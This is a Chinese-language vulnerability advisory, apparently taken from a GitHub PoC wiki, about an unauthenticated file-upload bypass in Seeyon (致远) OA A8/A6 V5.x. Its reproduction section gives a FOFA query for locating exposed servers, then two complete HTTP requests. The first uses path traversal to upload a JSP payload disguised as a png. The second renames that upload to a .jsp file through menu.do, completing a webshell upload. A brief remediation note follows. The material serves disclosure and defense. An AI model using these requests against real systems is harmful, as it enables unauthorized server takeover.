



# 致远互联-OA 前台fileUpload.do 绕过文件上传漏洞预警

# 漏洞描述

致远互联-OA 接口 fileUpload.do 接口处存在文件上传漏洞，未经身份验证的远程攻击者可通过目录遍历的方式绕过上传接口限制，并利用menu.do接口替换上传文件的fileid值实现webshell上传到服务器，获取服务器权限，控制整个 web 服务器。

# 影响范围

致远A8 V5.x 版本

致远A6 V5.x 版本

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="协同管理软件 V5.6SP1"

POC/EXP：（上传图片获取fileid值）

POST /seeyon/autoinstall.do/../../seeyon/fileUpload.do?method=processUpload HTTP/1.1
Host: 127.0.0.1
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) AppleWebKit/523.15 (KHTML, like Gecko, Safari/419.3) Arora/0.3 (Change: 287 c9dfb30)

--00content0boundary00
Content-Disposition: form-data; name="type"

--00content0boundary00
Content-Disposition: form-data; name="extensions"

png
--00content0boundary00
Content-Disposition: form-data; name="applicationCategory"

--00content0boundary00
Content-Disposition: form-data; name="destDirectory"

--00content0boundary00
Content-Disposition: form-data; name="destFilename"

--00content0boundary00
Content-Disposition: form-data; name="maxSize"

--00content0boundary00
Content-Disposition: form-data; name="isEncrypt"

false
--00content0boundary00
Content-Disposition: form-data; name="file1"; filename="1.png"
Content-Type: Content-Type: application/pdf

<% out.println("hello");%>
--00content0boundary00--

POC/EXP：（填写fileid值把文件转换成jsp文件 ）

POST /seeyon/autoinstall.do/../../seeyon/privilege/menu.do HTTP/1.1
Host: 127.0.0.1:8000
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)

method=uploadMenuIcon&fileid=-1091575552474397688&filename=ce.jsp

# 修复方案

**官方修复：**

 关闭互联网暴露面或设置接口访问权限

 升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
